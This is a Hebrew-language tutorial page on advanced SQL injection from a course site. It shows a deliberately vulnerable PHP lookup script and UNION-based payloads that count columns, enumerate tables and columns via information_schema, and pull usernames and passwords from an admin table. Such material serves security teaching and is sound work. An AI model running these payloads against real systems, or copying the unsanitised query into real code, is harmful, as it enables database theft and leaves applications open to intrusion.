

repository: AmitPinchasi/amittech · page: מחקר-אתרים/4 - חולשות צד לקוח והדלפת נתונים/4.5 - חולשת sqli מתקדמת/4.5 - חולשת SQLI מתקדמת - הרצאה/index.html · generator: mkdocs

# SQL Injection מתקדם - מתקפות מורכבות ושימוש ב-SQLMap

## מבוא

לא כל מערכות פגיעות ל-SQL Injection ישיר. כאשר מפתחים משתמשים ב-Prepared Statements או מסננים קלטים בצורה שטחית, תוקפים נדרשים להשתמש בטכניקות מתקדמות יותר כמו **UNION-Based SQLi, Error-Based SQLi ו-Time-Based SQLi** כדי להשיג מידע ממסד הנתונים.


### **1. הדפסת נתוני משתמשים מטבלה אחרת**

```php
<?php
$conn = new mysqli("localhost", "root", "", "users_db");
$id = $_GET['id'];
$query = "SELECT username, email FROM users WHERE id = $id";
$result = $conn->query($query);
if ($row = $result->fetch_assoc()) {
    echo "Username: " . $row['username'] . " Email: " . $row['email'];
} else {
    echo "User not found.";
}
?>
```
כאשר הSQLI שלנו מאפשר לנו להוציא מידע החוצה באתר, נוכל להדליף מידע מהטבלה כמו בדוגמה למעלה.
אך, לפעמים נרצה גם להדליף מטבלאות אחרות- (למשל לא מטבלת users בדוגמה)
בשביל זה, נוכל בpayload שלנו להוסיף union- כדי להוסיף מידע מטבלה אחרת בquery.
רגע אבל איך נדע איזה טבלאות יש בdatabase?
### 1. גילוי מספר העמודות
ראשית צריך למצוא כמה עמודות מוחזרות מהquery המקורית:
```sql
' ORDER BY 1-- 
' ORDER BY 2--
' ORDER BY 3-- 
```
נמשיך עד שנקבל שגיאה - המספר האחרון לפני השגיאה הוא מספר העמודות.

### 2. מציאת טבלאות במערכת
במערכות ניהול מסדי נתונים שונים יש טבלאות מערכת שמכילות מידע על המבנה:

#### MySQL/MariaDB:
```sql
UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()--
```
כך נוכל לקבל את רשימת כל הטבלאות בdatabase הנוכחי, כאשר בquery למעלה אנחנו שולפים על 3 עמודות כדי לוודא שלא תהיה שגיאה (כי בשלב הקודם גלינו שבלי שנשלוף על 3 עמודות תהיה שגיאה, כי כמות העמודות  של הטבלה השניה צריכה להיות תואמת את הטבלה הראשונה)
### 3. מציאת שמות עמודות
לאחר שמצאנו טבלאות מעניינות, נוכל למצוא את העמודות שלהן:

#### MySQL/MariaDB:
```sql
UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--
```
### דוגמה מעשית
אם מצאנו טבלה בשם `admin_users`, נוכל לחלץ את הנתונים כך:
```sql
UNION SELECT username,password,3 FROM admin_users--
```
